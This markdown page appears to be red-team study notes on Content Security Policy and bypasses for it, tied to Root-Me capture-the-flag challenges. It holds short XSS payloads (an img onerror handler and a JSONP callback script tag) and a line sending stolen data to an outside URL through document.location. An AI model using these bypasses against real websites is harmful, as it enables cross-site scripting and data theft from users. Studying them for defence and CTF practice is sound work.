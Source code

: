 # Content Security Policy (CSP)

[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

<div class="row row-cols-lg-2"><div>

The Content Security Policy (CSP) is a security mechanism designed to make XSS and other web client attacks harder.

* 🐛 We can block inline code execution <small>(no onload/...)</small>
* 🖼️ We can configure the image policy <small>(no external? whitelist? local?)</small>
* 💥 We can configure the script policy <small>(no external? whitelist? local?)</small>
* 🐍 We can configure URLs that we can connect to <small>(ex: fetch(URL))</small>
* ...

We can either use `curl -i URL` and manually inspect the CSP header and meta-tag or use Google [CSP Evaluator](https://csp-evaluator.withgoogle.com/).
</div><div>

Developers can allow some elements to bypass the CSP, such as one specific element allowed to load an external script using a `nonce`.

```html!
<script nonce="some_nonce_here">/*inline code allowed*/</script>
```

☠️ Nonce must be unique and not predictable for them to be useful.
</div></div>

<hr class="sep-both">

## CSP Bypass

*CSP policies may not be correctly configured and bypassed. Refer to [XSS Malicious Code](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-malicious-code) and [XSS Filter Bypass](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-filter-bypass) for more details.*

<div class="row row-cols-lg-2"><div>

#### CSP Bypass — unsafe-inline

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)

If `unsafe-inline` is enabled, you can execute code using:

```html!
<img src=1 onerror="your_code_here" />
```

#### CSP Bypass — connect-src 'none'

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)
[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

If `connect-src` is `none`, any external request will fail. Try:

* `document.location = 'URL/?param=' + <stolen_data>` <small>(CTF-only)</small>
* Automatically submit a hidden form after injecting data inside. Refer to [CSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/csrf.md).
</div><div>

#### CSP Bypass — JSONP — script-src

[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

JSONP was designed to ease the process of connecting an API with the website code: the developer can write code automatically executed after the API has been called within the URL ☠️.

Well-known list of public JSONP APIs: [JSONBee](https://github.com/zigoo0/JSONBee) <small>(0.6k ⭐)</small>. Look if your CSP policy is lax enough to allow any of them to be loaded.

```html!
<!-- don't forget "defer" or "async" -->
<script defer src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);alert(2)"></script>
```
</div></div>